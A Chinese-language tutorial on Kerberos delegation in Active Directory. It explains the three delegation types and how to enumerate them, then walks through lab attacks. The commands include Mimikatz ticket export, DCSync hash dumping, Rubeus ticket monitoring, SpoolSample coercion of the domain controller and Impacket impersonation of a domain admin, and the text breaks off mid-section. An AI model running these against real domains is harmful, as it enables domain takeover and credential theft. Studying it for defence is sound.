

# 委派攻击

域委派是大型网络中经常部署的应用模式，给多跳认证带来了很大的便利，但是与此同时也带来了很大的安全隐患。利用委派，攻击者可获取本地管理员甚至域管理员权限，还可以制作深度隐藏的后门。

## 域委派

域委派是指将域内用户的权限委派给其他服务账号，使得服务账号能以用户权限访问域内的其他服务。

如图所示委派流程，域用户 xie\test 以Kerberos 身份验证访问Web服务器，请求下载文件。但是真正的文件在后台的文件服务器上。于是Web服务器的服务账号 websrv 模拟域用户 xie/test，以 Kerberos 协议继续认证到后台文件服务器。后台文件服务器将文件返回给Web服务器，Web服务器再将文件返回给域用户 xie/test 。这样，就完成了一个委派的流程。

> 1.域用户访问Web服务器： 假设你是用户 xie\test，你现在需要从一个Web服务器上下载文件。但这些文件并不直接存储在Web服务器上，而是在后台的文件服务器上。首先，你通过Kerberos协议认证并访问了Web服务器，表明你是合法用户。
> 
> 2.Web服务器代表你去访问文件服务器： Web服务器本身没有直接访问文件的权限，但你作为合法用户是有权限访问文件服务器的。这时，Web服务器（使用它的服务账号 websrv）会模拟你，使用Kerberos委派技术代表你去后台的文件服务器请求文件。
> 
> 3.Kerberos委派的本质： Kerberos协议允许Web服务器以你的身份（即 xie\test）继续认证并请求文件服务器访问资源。文件服务器接受这个请求，认为是你本人在访问，尽管实际上请求是通过Web服务器传递的。
> 
> 4.文件服务器响应并返回文件： 文件服务器验证了Web服务器是以你 xie\test 的身份进行访问，并且这个身份有权限访问该文件。于是，文件服务器将请求的文件返回给Web服务器。
> 
> 5.Web服务器再返回文件给你： Web服务器得到了文件后，再将文件返回给你（xie\test），完成整个请求流程。
> 
> 委派的核心：
> 
> 1.Web服务器并不是以自己的身份去请求文件，而是借用了你的身份。
> 
> 2.文件服务器相信Web服务器，因为它通过Kerberos委派技术验证了Web服务器确实是在代表你行事。


在域中，只有 **主机账号** 和 **服务账号** 才具有委派属性

- 主机账号就是活动目录中` Computers` 中的计算机，也可以称为**机器账号**。
- 服务账号是**域内用户账号**的一种类型，是将服务运行起来并加入域时所用的账号。例如` SQL Server `在安装时，会在域内自动注册服务账号`SQLServiceAccount`，也可以将域用户通过注册 SPN 变为服务账号。

## 委派的分类

域内委派主要有 3 种应用方式：`非约束性委派（UD：Unconstrained Delegation）`、`约束性委派（CD：Constrained Delegation）`和 `基于资源的约束性委派(RBCD：Resource Based Constrained Delegation)`。现在让我们来具体看看这三种委派之间的联系和差异。

||非约束性委派  UD|约束性委派  CD|基于资源的约束性委派  RBCD|
|--|--|--|--|
|安全性|低|较高|最高|
|工作方式|服务可以自由代表用户访问所有资源|约由管理员指定可以访问的资源|资源所有者自己控制访问权限|
|简单理解|Web服务器获得了用户的万能钥匙(TGT),可以用这把钥匙打开任意门(资源)|Web服务器获得了用户的特定钥匙,这把钥匙只能打开特定的门(文件服务器)|资源本身控制了谁可以代表用户来访问它,只有特定的服务(例如Web服务器)才能获得钥匙进入这个资源。|
|风险|服务被攻击时，攻击者可以横向移动|必须由管理员手动配置|配置复杂，需要良好的管理|

### 1.非约束性委派

在 Windows Server2000 首次发布 Active Directory 时，Microsoft 就提供了一种简单的机制来支持用户通过 Kerberos 向 Web 服务器进行身份验证并需要代表该用户更新后端数据库服务器上的记录的方案，这就是最早的`非约束性委派（UD：Unconstrained Delegation）`。对于非约束性委派，服务账号可以获取被委派用户的 TGT 认购权证，并将 TGT 认购权证缓存到 `LSASS` 进程中，从而服务账号可使用该 TGT 认购权证，模拟该用户访问任意服务。非约束委派的设置需要`SeEnableDelegationPrivilege` 特权，该特权默认仅授予域管理员和企业管理员。

> 当用户使用Kerberos协议登录并访问某个服务（比如Web服务器），Kerberos会为该用户颁发一个TGT。在非约束性委派中，服务账号（例如Web服务器的websrv账号）可以获取该用户的TGT。这意味着，服务账号可以拿到用户的"身份凭据"，即TGT。
> 
> 在非约束性委派模式下，当用户通过Kerberos协议登录并访问某个服务时，该服务的账号可以获取到用户的TGT（身份凭据）。该TGT会被缓存到LSASS进程中，以便后续使用。拥有这个TGT的服务账号可以模拟该用户，代表用户访问其他Kerberos认证的服务，而无需再次询问用户的凭据或密码。

- 配置了非约束性委派属性的**机器账号**的` userAccountControl` 属性有个Flag 位：`WORKSTATION_TRUST_ACCOUNT | TRUSTED_FOR_DELEGATION`，其对应的数是 `0x81000=528384`，如图所示。
- 配置了非约束性委派属性的**服务账号**的` userAccountControl `属性有个Flag 位：`NORMAL_ACCOUNT | TRUSTED_FOR_DELEGATION`，其对应的数是 `0x80200=524800`，如图所示。


注：**域控制器默认配置了非约束性委派**。

#### 非约束性委派流程

下图所示是微软官方对于非约束性委派流程的介绍：


在该流程中，TGT1 认购权证请求的 ST 服务票据用于访问 service1 服务，TGT2认购权证请求的 ST 服务票据用于访问 service2 服务。

**从网络攻击者的角度来看，如果攻击者控制了 service1，则攻击者可以诱骗域管理员来访问 service1 服务，然后攻击者可以在 service1 机器上获取域管理员的TGT 认购权证，从而攻击者可以用缓存的 TGT 认购权证模拟管理员访问任意服务，包括域控。**

### 2.约束性委派

由于非约束性委派的不安全性，微软在 Windows Server 2003 中发布了约束性委派。对于`约束性委派（Constrained Delegation）`，服务账号只能获取该用户对指定服务的 ST 服务票据，从而只能模拟该用户访问特定的服务。配置了约束性委派账户的`msDS-AllowedToDelegateTo`属性会指定对哪个`SPN`进行委派。约束委派的设置需要`SeEnableDelegationPrivilege`特权，该特权默认仅授予域管理员和企业管理员。

约束性委派有两种：

-  一种是仅使用 Kerberos(K)，也就是不能进行协议转换，如图所示。

-  另一种是使用任何身份验证协议(N)，也就是能进行协议转换，如图所示。


#### 约束性委派流程

为了在 Kerberos 协议层面对约束性委派的支持，微软对 Kerberos 协议扩展了两个子协议 `S4u2self(Service for User to Self) `和 `S4u2Proxy (Service for User to Proxy )`**。`S4u2self` 可以代表任意用户请求针对自身的 ST 服务票据；`S4u2Proxy` 可以用上一步获得的 ST 服务票据以用户的名义请求针对其它指定服务的 ST 服务票据。**

如图所示是微软官方对于使用任何身份验证协议(N)约束性委派流程的介绍：


从网络攻击的角度来看，如果攻击者控制了 `Service1` 的服务账号，并且` Service1`配置了到域控的 `CIFS` 服务的约束性委派。则攻击者可以利用 `Service1` 以任意用户权限(包括域管理员)访问域控的 `CIFS` 服务，即相当于控制了域控。

整个流程简化点概括如下图所示：


##### 1）S4u2Self

**S4u2self 可以代表任意用户请求针对自身的可转发 ST 服务票据。**当用户以其他方式：如 NTLM 认证、基于表单的认证等方式与 Web 服务进行认证后，用户是无法向 Web 服务器提供请求该服务的 ST 服务票据。因而服务器也无法进一步使用`S4U2Proxy `协议请求访问服务 B。`S4U2Self `协议便是解决该问题的方案，被配置为约束性委派的服务账号能够调用` S4U2Self `协议向 KDC 申请为任意用户请求访问自身的可转发的服务票据。此后，便可通过 `S4U2Proxy` 协议以指定用户的身份使用这张可转发的 ST 服务票据向域控制器请求访问服务 B 的 ST 服务票据。需要特别说明的是，服务使用` S4U2Proxy `协代表用户获得针对服务自身 ST 票据这个过程是不需要用户凭据的！如图所示，是` S4u2self `的过程：


注：虽然 S4U2Self 协议允许服务代表用户向 KDC 请求一张访问自身服务的 ST服务票据，但是此协议扩展不允许服务代表用户向 KDC 请求访问其他服务的 ST服务票据。

##### 2）S4u2Proxy

**S4u2Proxy 可以用上一步获得的可转发 ST 服务票据以用户的名义请求针对其它指定服务的 ST 服务票据。**S4U2Proxy 使得服务 A 可以使用来自用户 test 的授权，然后以用户 test 的身份向 KDC 请求访问服务 B 的 ST 服务票据。如图所示，是` S4u2Proxy `的过程：


### 3.基于资源的约束性委派

为了使用户和资源更加独立，微软在 `Windows Server 2012` 中引入了基于资源的约束性委派。**基于资源的约束委派不需要域管理员权限去设置，而是把设置属性的权限赋予给了机器自身。基于资源的约束性委派允许资源配置受信任的帐户委派给他们。**基于资源的约束性委派只能在运行 Windows Server 2012 和 Windows Server 2012 R2 及以上的域控制器上配置，但可以在混合模式林中应用。配置了基于资源的约束性委派账户的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的值为被允许委派账号的 SID，如图所示。


并且委派属性这里没有任何值，如图所示。


#### （1）基于资源的约束性委派流程

基于资源的约束性委派简要流程如图所示：


整个流程如下：
①：服务 A 使用自己的服务账号密码向 KDC 申请一个可转发的 TGT 认购权证。
②：服务 A 利用` S4U2Self `协议代表用户申请一个获得针对服务 A 自身的 ST 服务票据。这一步区别于传统的约束性委派。在 `S4U2Self `协议里面提到，返回的 ST服务票据可转发的一个条件是服务 A 配置了传统的约束委派。KDC 会检查服务 A的 `msDS-AllowedToDelegateTo` 字段，如果这个字段赋值了，则 KDC 返回可转发的 ST 服务票据。但是由于这里是基于资源的约束性委派，是在服务 B 上配置的，服务 B 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性配置了服务 A的 SID，因此服务 A 并没有配置 `msDS-AllowedToDelegateTo `字段。因此 KDC返回的 ST 服务票据是不可转发的。
③：服务 A 利用 `S4U2Proxy` 协议以用户的身份向 KDC 请求访问针对服务 B 的可转发的 ST 服务票据(上一步获得的不可转发的 ST 服务票据放在请求包的`AddtionTicket` 里面)。KDC 返回一张访问服务 B 的可转发的 ST 服务票据。
④：服务 A 拿着上一步获得的可转发的 ST 服务票据访问服务 B。

#### （2）谁拥有配置基于资源的约束性委派的权限？

从上面我们知道，配置了基于资源的约束性委派账户的 `msDS- AllowedToActOnBehalfOfOtherIdentity` 属性的值为被允许委派账号的 SID。那么，谁能修改` msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，就说明谁拥有配置基于资源的约束性委派的权限了！

在域控上执行如下命令查询指定域内机器 win2012R2 的 `msDS- AllowedToActOnBehalfOfOtherIdentity` 属性。

```
AdFind.exe -f "&(objectcategory=computer)(name=win2012R2)" msDS-AllowedToActOnBehalfOfOtherIdentity
```

如图所示，查询域内机器 win2012R2 的 `msDS- AllowedToActOnBehalfOfOtherIdentity` 属性，发现默认情况下，没有该属性。


也就是说，**谁能增加机器账户的 `msDS-AllowedToActOnBehalfOfOtherIdentity`属性，就说明谁能配置基于资源的约束性委派。**我们使用 adfind 查询 win2012R2机器的 **ACL**，看哪些用户对其有修改属性的权限，查询命令如下所示

```
adfind.exe -b CN=WIN2012R2,CN=Computers,DC=xie,DC=com -sc getacl -sddl+++ -sddlfilter ;;"WRT PROP";;;
```

如图所示，可以看出除了 administrator 用户外，xie\hack 用户和 SELF 自身拥S有修改属性的权限。


administrator 和 SELF 自身拥有修改属性权限好理解，那么为啥 `xie\hack` 用户也拥有修改属性的权限呢？这是**因为 win2012R2 机器是通过 `xie\hack` 用户加入域的，因此 `xie\hack` 用户拥有修改 win2012R2 机器属性的权限。**并且win2012R2 机器的 `mS-DS-CreatorSID` 属性的值为 `xie\hack` 用户的 SID，我们通过 adfind 执行如下命令查询可以验证该结论。

```
#查询 win2012r2 机器的 mS-DS-CreatorSID 属性
AdFind.exe -f "&(objectcategory=computer)(name=win2012R2)" mS-DS-CreatorSID

#查询 sid 对应的用户
AdFind.exe -sc adsid:S-1-5-21-1313979556-3624129433-4055459191-1105
```

如图所示，可以看到 win2012R2 机器的 `mS-DS-CreatorSID` 属性的值确实为`xie\hack` 用户的 SID。


**结论：也就是说，除了传统的域管理员等高权限用户外，机器自身和将机器加入域的域用户拥有修改机器 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的权限。**

#### （3）基于资源的约束性委派的优势

那么基于资源的约束性委派相比域其他两种类型的委派有啥优势呢？

- **委派的授予权限**给了拥有资源的后端，而不是前端。
- 约束性委派不能跨域进行委派，而基于资源的约束性委派**可以跨域和林**。
- 不再需要**域管理员**权限设置，只需拥有在计算机对象上编辑`msDS- AllowedToActOnBehalfOfOtherIdentity`属性的权限，也就是 **将计算机加入域的域用户** 和 **机器自身** 都拥有该权限。

#### （4）约束性委派和基于资源的约束性委派配置的差别

那么约束性委派和基于资源的约束性委派在配置上有何差别呢？

- 传统的约束性委派是“**正向的**”，通过修改服务账户 A 的`msDS- AllowedToDelegateTo`属性，添加服务 B 的` SPN（Service Principle Name）`，设置约束委派对象为服务 B，服务 A 便可以模拟任意用户向域控制器请求访问服务 B 的 ST 服务票据。
- 而基于资源的约束性委派则是**相反**，通过修改服务 B 的`msDS- AllowedToActOnBehalfOfOtherIdentity`属性，添加服务 A 的 `SID`，达到让服务 A 模拟任意用户访问服务 B 资源的目的。

如图所示，可以看到两者配置的差别：


#### （5）基于资源的约束性委派攻击

该攻击由国外安全研究员 Elad Shami 提出，他在文章中指出无论服务账号的`UserAccountControl` 属性是否被设置为`TRUETED_TO_AUTHENTICATE_FOR_DELEGATION` 值，服务自身都可以通过调用 `S4U2Self` 来为任意用户请求自身的服务票据。但是当没有设置该属性时，KDC 通过检查账号的 `msDS-AllowedToDelegateTo` 字段，发现没有被赋值，所以服务自身通过` S4U2Self `请求到的 ST 服务票据是不可转发的，因此不可转发的ST 服务票据是无法通过` S4U2Proxy `协议转发到其他服务进行约束性委派认证的。***但是！在基于资源的约束性委派过程中，不可转发的 ST 服务票据仍然可以通过 `S4U2Proxy` 协议转发到其他服务进行委派认证，并且最后服务还会返回一张可转发的 ST 服务票据，这是微软的设计缺陷！***因此，<u>如果我们能够在服务 B 上配置允许服务 A 的基于资源的约束性委派，那么我们就可以通过控制服务 A 使用`S4U2Self` 协议向域控请求任意用户访问自身的 ST 服务票据，最后再使用`S4U2Proxy` 协议转发此 ST 服务票据去请求访问服务 B 的可转发的 ST 服务票据，那么我们就可以模拟任意用户访问服务 B 了。而这里我们控制的服务 A 可以以普通域用户的身份去创建机器账号。</u>

引用博客文章中的一张图说明该攻击步骤，如图所示：


要想进行基于资源的约束性委派攻击，需要具备下面两个条件：

- 拥有服务 A 的权限，这里我们只需要拥有一个普通的域账号权限即可，因为普通的域账户默认可以创建最多十个机器账号。机器账号可以作为服务账号使用。
- 拥有在服务 B 上配置允许服务 A 的基于资源的约束性委派的权限，即拥有修改服务 B 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的权限。而机器账号自身和创建机器账号的用户即拥有该权限。

所以，以上两个条件可以转换为拥有 **将机器加入域的域用户的权限** 或 **机器自身的权限**。

## 查询委派属性的账号

查询域中具有委派属性的账号可以**使用 LDAP 协议**，通过过滤`userAccountControl` 属性筛选出服务账号和机器账号，机器账号`samAccountType=805306369`，而服务账号 `samAccountType=805306368`。再通过 `allowedtodelegateto` 和 `AllowedToActOnBehalfOfOtherIdentity` 属性筛选出不同的委派。

### 1.查询非约束委派的主机或服务账户

查询非约束性委派的主机或服务账号可以使用 powershell 脚本、adfind 或ldapsearch 等工具。

#### （1）powershell 脚本

利用 PowerSploit 下的 PowerView.ps1 脚本查询，使用命令如下：

```
Import-Module .\PowerView.ps1;
#查询域中配置非约束委派的主机
Get-NetComputer -Unconstrained -Domain xie.com
#查询域中配置非约束委派的服务账户
Get-NetUser -Unconstrained -Domain xie.com | select name
```

如图所示，使用该脚本查询出域中配置了非约束性委派的主机有 AD01 和 AD02，配置了非约束性委派的服务账号有 service_account。


#### （2）adfind

利用 adfind 执行如下命令过滤 samAccountType 和 userAccountControl 属性，即可查询出域内配置了非约束性委派的主机和服务账号。

```
#查询域中配置非约束委派的主机
AdFind.exe -b "DC=xie,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn

#查询域中配置非约束委派的服务账户
AdFind.exe -b "DC=xie,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn
```

#### （3）ldapsearch

利用 ldapsearch 执行如下命令过滤 samAccountType 和 userAccountControl属性，即可查询出域内配置了非约束性委派的主机和服务账号。

```
#查询域中配置非约束委派的主机
ldapsearch -x -H ldap://10.211.55.4:389 -D "hack@xie.com" -w P@ss1234 -b " DC=xie,DC=com" "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" | grep dn
#查询域中配置非约束委派的服务账户
ldapsearch -x -H ldap://10.211.55.4:389 -D "hack@xie.com" -w P@ss1234 -b " DC=xie,DC=com" "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" | grep dn
```

### 2.查询约束性委派的主机或服务账户

查询非约束性委派的主机或服务账号可以使用 powershell 脚本、adfind 或ldapsearch 等工具。

#### （1）powershell 脚本

利用 Empire 下的 powerview.ps1 脚本，使用命令如下：

```
Import-Module .\powerview.ps1;
#查询域中配置了约束性委派的主机
Get-DomainComputer -TrustedToAuth -Domain xie.com | select name,msds-allowedtodelegateto
#查询域中配置了约束性委派的账号
Get-DomainUser -TrustedToAuth -Domain xie.com | select name,msds-allowedtodelegateto
```

#### （2）adfind

利用 adfind 执行如下命令过滤 samAccountType 和 userAccountControl 属性，即可查询出域内配置了约束性委派的主机和服务账号。

```
#查询域中配置了约束性委派的主机，并可以看到被委派的 SPN
AdFind.exe -b "DC=xie,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
#查询域中配置了约束性委派的服务账户，并可以看到被委派的 SPN
AdFind.exe -b "DC=xie,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

#### （3）ldapsearch

利用 ldapsearch 执行如下命令过滤 samAccountType 和 userAccountControl属性，即可查询出域内配置了约束性委派的主机和服务账号。

```
#查询域中配置了约束性委派的主机，并可以看到被委派的 SPN
ldapsearch -x -H ldap://10.211.55.4:389 -D "hack@xie.com" -w P@ss1234 -b " DC=xie,DC=com" "(&(samAccountType=805306369)(msds-allowedtodelegateto=*)) " | grep -e dn -e msDS-AllowedToDelegateTo

#查询域中配置了约束性委派的服务账户，并可以看到被委派的 SPN
ldapsearch -x -H ldap://10.211.55.4:389 -D "hack@xie.com" -w P@ss1234 -b " DC=xie,DC=com" "(&(samAccountType=805306368)(msds-allowedtodelegateto=*)) " | grep -e dn -e msDS-AllowedToDelegateTo
```

### 3.查询基于资源的约束性委派的主机或服务账户

#### （1）adfind

利用 adfind 执行如下命令过滤 `samAccountType` 和 `msDS- AllowedToActOnBehalfOfOtherIdentity` 属性，即可查询出域内配置了基于资源的约束性委派的主机和服务账号。使用 adfind 查询出来的 `msDS- AllowedToActOnBehalfOfOtherIdentity` 值，用` {Security Descriptor}`代替了，这个值包含了允许被委派的服务账号或机器账号的 SID。

```
#查询域中配置基于资源的约束性委派的主机
AdFind.exe -b "DC=xie,DC=com" -f "(&(samAccountType=805306369)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" msDS-AllowedToActOnBehalfOfOtherIdentity
#查询域中配置基于资源的约束性委派的服务账户
AdFind.exe -b "DC=xie,DC=com" -f "(&(samAccountType=805306368)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" msDS-AllowedToActOnBehalfOfOtherIdentity
```

如图所示，使用 adfind 查询出域中配置了基于资源的约束性委派的主机有win7，配置了基于资源的约束性委派的服务账号有 krbtgt。


#### （2）ldapsearch

利用 ldapsearch 执行如下命令过滤 samAccountType 和 msDS- AllowedToActOnBehalfOfOtherIdentity 属性，即可查询出域内配置了基于资源的约束性委派的主机和服务账号。

```
#查询域中配置基于资源的约束性委派的主机
ldapsearch -x -H ldap://10.211.55.4:389 -D "hack@xie.com" -w P@ss1234 -b " DC=xie,DC=com" "(&(samAccountType=805306369)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" | grep dn
#查询域中配置基于资源的约束性委派的服务账户
ldapsearch -x -H ldap://10.211.55.4:389 -D "hack@xie.com" -w P@ss1234 -b " DC=xie,DC=com" "(&(samAccountType=805306368)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" | grep dn
```

### 4.查看某账户是否具有委派性

通过使用 Empire 下的 powerview.ps1 脚本查看服务账号或机器账号的属性，来查看某账号是否具有委派属性。

```
Import-Module .\powerview.ps1;
#查看非约束性委派和约束性委派
Get-DomainUser 域用户名 -Properties useraccountcontrol,msds-allowedtodelegateto | fl
Get-DomainComputer 机器用户名 -Properties useraccountcontrol,msds-allowedtodelegateto | fl

#查看基于资源的约束性委派
Get-DomainUser 域用户名 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
Get-DomainComputer 机器用户名 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

当该账号没委派属性时，只有 userAccountControl 属性有值。

• 服务账号的值为：NORMAL_ACCOUNT
• 机器账号的值为：WORKSTATION_TRUST_ACCOUNT

如图所示，可以看到没配置委派属性的服务账号的 userAccountControl 属性只有NORMAL_ACCOUNT，没配置委派属性的机器账号的 userAccountControl 属性只有 WORKSTATION_TRUST_ACCOUNT。


如图所示，当账号被设置为 非约束性委派 时，其 userAccountControl 属性会包含为 TRUSTED_FOR_DELEGATION。


如图所示，当账号被设置为 约束性委派 时，其 userAccountControl 属性包含TRUSTED_TO_AUTH_FOR_DELEGATION，且 msds-allowedtodelegateto 属性会被设置为哪些 SPN。


如图所示，当账号被设置为 基于资源的约束性委派时，其 msDS- AllowedToActOnBehalfOfOtherIdentity 属性会有被允许委派账号的 SID。


## 域委派攻击

域委派攻击发生在 kerberos 协议的 `TGS-REQ&TGS-REP` 阶段，可以分为非约束性委派攻击、约束性委派攻击和基于资源的约束性委派攻击。

### 1.非约束委派攻击

以下是实验环境：

- 域控：AD01(10.211.55.4) 
- 域成员主机：Win7(10.211.55.6) Server2012(10.211.55.9) 
- 域管理员：test administrator 
- 域普通用户：hack
- 域：xie.com

非约束性委派攻击可以利用服务账号和主机账号，因为只有服务账号和主机账号具有委派属性。**域用户账号注册 SPN 之后就成为了服务账号，主机账号的话我们可以手动去创建。**

如图所示，在域控上配置主机 win7 具有非约束性委派属性。


查看域内非约束性委派的主机账号，如图所示，可以看到有 Win7 机器。


注：默认域控制器配置了非约束性委派。

在 win7 上访问域控，提示拒绝访问。如图所示：


#### （1）诱使域管理员访问机器

此时我们用域管理员 test 身份远程访问 win7 机器，这里 test 登录在域内任何一台机器均可，不一定非得是域控。或者也可以使用 ipc 连接，如下：

```
net use \\win7.xie.com /user:xie\test P@ssword1234
```

如图域管理员 test 远程连接 win7 机器。


**此时，在主机 win7 的 lsass.exe 内存中就会有域管理员 test 的 TGT 认购权证**。我们**在 win7 上以管理员权限运行 mimikatz**，执行以下命令导出内存中的票据：

```
privilege::debug
#导出票据
sekurlsa::tickets /export
```

如图所示，使用 mimikatz 导出内存中的票据：


可以看到会生成一个 test@krbtgt 的票据，如图所示：


然后我们用 mimikatz 执行如下命令将这个票据导入内存中。

```
#导入票据
kerberos::ptt [0;58cdc]-2-0-60a10000-test@krbtgt-XIE.COM.kirbi

#查看票据
kerberos::list
```

如图所示，使用 mimikatz 将票据导入内存中，然后访问域控，可以看到导入票据后成功访问域控。


#### （2）结合打印机漏洞攻击

上面的攻击手段，还需要域管理员主动连接配置了非约束性委派的主机，才能从该主机上抓到域管理员的 TGT 认购权证，实战中意义不大。于是，我们可以**利用打印机服务漏洞来强制域控连接配置了非约束性委派的主机，也能从该主机上抓到域控机器用户的 TGT 认购权证，且不需要管理员交互**！

在 win7 上以管理员权限用 `Rubeus` 执行如下命令每隔一秒监听一次来自 AD01 主机的票据。

```
Rubeus.exe monitor /interval:1 /filteruser:AD01$
```

如图所示，使用 Rubeus 监听 AD01 主机的票据。


然后在 Win7 上执行如下命令使用打印机服务漏洞攻击域控 AD01，使其强制回连认证我们的 win7 主机。

```
SpoolSample.exe AD01 win7
```

如图所示，使用打印机服务漏洞攻击域控 AD01。


如图所示，可以看到我们的 Rubeus 已经收到来自 AD01 的 base64 的 TGT 认购权证了。


然后我们可以直接使用 Rubeus 执行如下命令导入这个 base64 的 TGT 认购权证，就可以使用 mimikatz 导出域内所有用户 hash 了。

```
Rubeus.exe ptt /ticket:base64 格式的票据
```

如图所示，可以看到没导入票据之前，mimikatz 是无法导出域内用户 hash 的。


Rubeus 导入票据后，就可以导出域内用户 hash 了。如图所示：


或者也可以使用 mimikatz 执行如下命令，导出内存中的票据，导出后的票据后缀为.kirbi，然后使用 mimikatz 直接导入这个.kirbi 票据，再导出域内用户 hash。

```
privilege::debug
#导出票据
sekurlsa::tickets /export
#导入票据
kerberos::ptt [0;21467]-2-1-60a10000-AD01$@krbtgt-XIE.COM.kirbi
#导出域内所有用户 hash
lsadump::dcsync /all /csv
```

如图所示，导出内次中的票据。


然后再使用 mimikatz 导出票据，即可导出域内用户哈希了。如图所示：


注：域控机器用户不能用于登录，但是有 `Dcsync` 权限，所以可以用于导出域内用户哈希。

### 2.约束性委派攻击

以下是实验环境：

- 域控：AD01 (10.211.55.4)
- 域成员主机：Win7 (10.211.55.6) 
- 域管理员：test
- 服务账号：hack
- 域：xie.com

攻击流程：

1）服务账号 hack 使用自己的账号密码向 KDC 申请一个可转发的 TGT 认购权证，注意在 KDC Option 里面选择 forwardable 标志位，这样的话请求的 TGT 认购权证就是可转发的。
2）服务账号 hack 以域管理员 test 身份申请一个针对自身服务的 ST 服务票据(这一步就是 **S4U2Self**)，这一步生成的 ST 服务票据是**可转发**的。
3）服务账号 hack 拿着上一步可转发的 ST 服务票据以域管理员 test 身份向 KDC申请访问特定服务(cifs/ad01.xie.com)的 ST 服务票据(**S4U2Proxy**)。
4）导入上一步获得的以域管理员 test 身份访问特定服务(cifs/ad01.xie.com)的ST 服务票据，即可成功访问域控。

约束性委派攻击可以利用服务账号和主机账号，因为只有服务账号和主机账号具有委派属性。域用户账号注册 SPN 之后就成为了服务账号。主机账号的话我们可以手动去创建。

我们将域用户 hack 执行如下命令注册为某个 SPN 的服务账号。

```
#将域用户 hack 注册为 SPN SQLServer/win7.xie.com:1434 的服务账号，只有机器账号和域管理员账号有权限
setspn -U -A SQLServer/win7.xie.com:1434 hack
#查找指定 hack 用户注册的 SPN
setspn -L hack
```

如图所示，给 hack 用户注册 SPN。


或者创建一个机器账号 hack2 也可以，如图所示。


这里我们使用 hack 服务账号来配置约束性委派属性。在域控上修改用户 hack 的委派属性为约束性委派，协议为域控 AD01 的 CIFS 协议，如图所示：


此时我们拿到了域内一台主机 Win7 的权限，该主机当前登录着 xie\hack 用户，抓取到其密码为 P@ss1234，然后通过 adfind 执行如下命令查询发现 hack 用户被赋予了约束性委派，并且委派的 SPN 是 cifs/AD01.xie.com。

```
#查询域中配置了约束性委派的服务账户，并可以看到被委派的 SPN
AdFind.exe -b "DC=xie,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" -dn
```

如图所示，可以看到查询出 hack 用户被赋予了约束性委派，并且委派的 SPN 是cifs/AD01.xie.com。


然后我们就可以进行约束性委派攻击了，如下我们使用 impacket 和 Rubeus 进行约束性委派攻击。

#### （1）使用 impacket 攻击

首先，需要把攻击机的`/etc/resolv.conf` 文件中的 DNS 服务器指定为域控。然后执行如下命令进行攻击：

```
#以 test 的身份申请一张访问 cifs/ad01.xie.com 服务的票据
python3 getST.py -dc-ip AD01.xie.com xie.com/hack:P@ss1234 -spn cifs/ad01.xie.com -impersonate test
python3 getST.py -dc-ip AD01.xie.com xie.com/server_account:P@ss1234 -spn cifs/ad01.xie.com -impersonate administrator
#导入票据
export KRB5CCNAME=test.ccache
python3 smbexec.py -no-pass -k ad01.xie.com
```

如图所示，可以看到执行完这些命令后，即可远程连接域控制器 AD01。


如果出现如图所示报错，则是因为给 hack 用户配置委派的时候，选择的是仅使用Kerberos(K) ，如图所示，这样的话就不会进行协议转化，所以报错。


#### （2）使用 kekeo 攻击

我们也可以在 Win7 上使用 kekeo 执行如下命令生成 ST 服务票据：

```
#使用 hack 账号申请一个 TGT 认购权证
